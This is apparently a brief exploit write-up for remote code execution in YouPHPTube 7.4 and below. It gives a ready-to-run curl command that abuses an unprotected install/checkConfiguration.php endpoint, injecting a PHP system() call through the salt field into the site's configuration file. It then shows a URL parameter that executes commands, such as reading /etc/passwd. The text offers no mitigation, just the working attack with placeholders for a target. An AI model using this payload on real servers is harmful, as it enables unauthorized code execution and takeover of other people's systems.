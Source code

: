 ## YouPHPTube 7.4  Remote Code Execution 

### Version: Version: 7.4 & below
### Vendor Homepage: https://www.youphptube.com/


In YouPHPTube 7.4, the file `install/checkConfiguration.php` has no access control, which leads to everyone being able to edit the configuration file, and insert malicious PHP code. To exploit this, we will generate a new malicious config file using the command below:

```sh
curl -s "http://put-ip-here/install/checkConfiguration.php" --data "contactEmail=fake-email@fake.com&createTables=2&mainLanguage=RCE&salt=';system(\$_GET['bots']);echo '&systemAdminPass=zerodays.LOL&systemRootPath=/var/www/html/&webSiteRootURL=/var/www/html/&webSiteTitle=Site-Title-Here&databaseHost=127.0.0.1&databaseName=Any-DBname-Here&databasePass=&databasePort=3306&databaseUser=root" 
```

Visit site and add param `bots=` to the URL to gain RCE. Example:

```php
http://put-ip-here/?bots=cat+/etc/passwd
```
